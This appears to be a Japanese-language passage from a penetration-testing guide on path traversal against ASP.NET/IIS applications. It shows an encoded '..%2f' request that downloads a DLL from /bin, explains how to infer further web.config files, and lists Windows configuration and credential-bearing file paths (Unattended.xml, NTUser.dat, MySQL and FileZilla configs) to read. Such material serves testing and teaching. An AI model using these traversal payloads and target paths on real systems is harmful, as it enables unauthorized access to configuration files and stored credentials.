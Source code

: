 カスタムネームスペースの言及は、/binディレクトリに存在する「**WebApplication1**」という名前のDLLを示唆しています。これに続いて、**WebApplication1.dll**をダウンロードするリクエストが表示されます：
```markup
GET /download_page?id=..%2f..%2fbin/WebApplication1.dll HTTP/1.1
Host: example-mvc-application.minded
```
これは、/binディレクトリに**System.Web.Mvc.dll**や**System.Web.Optimization.dll**などの他の重要なDLLの存在を示唆しています。

DLLが**WebApplication1.Areas.Minded**という名前空間をインポートするシナリオでは、攻撃者は**/area-name/Views/**のような予測可能なパスに他のweb.configファイルが存在することを推測するかもしれません。これらのファイルには、/binフォルダ内の他のDLLへの特定の構成や参照が含まれています。例えば、**/Minded/Views/web.config**へのリクエストは、別のDLLである**WebApplication1.AdditionalFeatures.dll**の存在を示す構成や名前空間を明らかにすることができます。

### 一般的なファイル

[こちら](https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/)から
```
C:\Apache\conf\httpd.conf
C:\Apache\logs\access.log
C:\Apache\logs\error.log
C:\Apache2\conf\httpd.conf
C:\Apache2\logs\access.log
C:\Apache2\logs\error.log
C:\Apache22\conf\httpd.conf
C:\Apache22\logs\access.log
C:\Apache22\logs\error.log
C:\Apache24\conf\httpd.conf
C:\Apache24\logs\access.log
C:\Apache24\logs\error.log
C:\Documents and Settings\Administrator\NTUser.dat
C:\php\php.ini
C:\php4\php.ini
C:\php5\php.ini
C:\php7\php.ini
C:\Program Files (x86)\Apache Group\Apache\conf\httpd.conf
C:\Program Files (x86)\Apache Group\Apache\logs\access.log
C:\Program Files (x86)\Apache Group\Apache\logs\error.log
C:\Program Files (x86)\Apache Group\Apache2\conf\httpd.conf
C:\Program Files (x86)\Apache Group\Apache2\logs\access.log
C:\Program Files (x86)\Apache Group\Apache2\logs\error.log
c:\Program Files (x86)\php\php.ini"
C:\Program Files\Apache Group\Apache\conf\httpd.conf
C:\Program Files\Apache Group\Apache\conf\logs\access.log
C:\Program Files\Apache Group\Apache\conf\logs\error.log
C:\Program Files\Apache Group\Apache2\conf\httpd.conf
C:\Program Files\Apache Group\Apache2\conf\logs\access.log
C:\Program Files\Apache Group\Apache2\conf\logs\error.log
C:\Program Files\FileZilla Server\FileZilla Server.xml
C:\Program Files\MySQL\my.cnf
C:\Program Files\MySQL\my.ini
C:\Program Files\MySQL\MySQL Server 5.0\my.cnf
C:\Program Files\MySQL\MySQL Server 5.0\my.ini
C:\Program Files\MySQL\MySQL Server 5.1\my.cnf
C:\Program Files\MySQL\MySQL Server 5.1\my.ini
C:\Program Files\MySQL\MySQL Server 5.5\my.cnf
C:\Program Files\MySQL\MySQL Server 5.5\my.ini
C:\Program Files\MySQL\MySQL Server 5.6\my.cnf
C:\Program Files\MySQL\MySQL Server 5.6\my.ini
C:\Program Files\MySQL\MySQL Server 5.7\my.cnf
C:\Program Files\MySQL\MySQL Server 5.7\my.ini
C:\Program Files\php\php.ini
C:\Users\Administrator\NTUser.dat
C:\Windows\debug\NetSetup.LOG
C:\Windows\Panther\Unattend\Unattended.xml
C:\Windows\Panther\Unattended.xml
C:\Windows\php.ini
```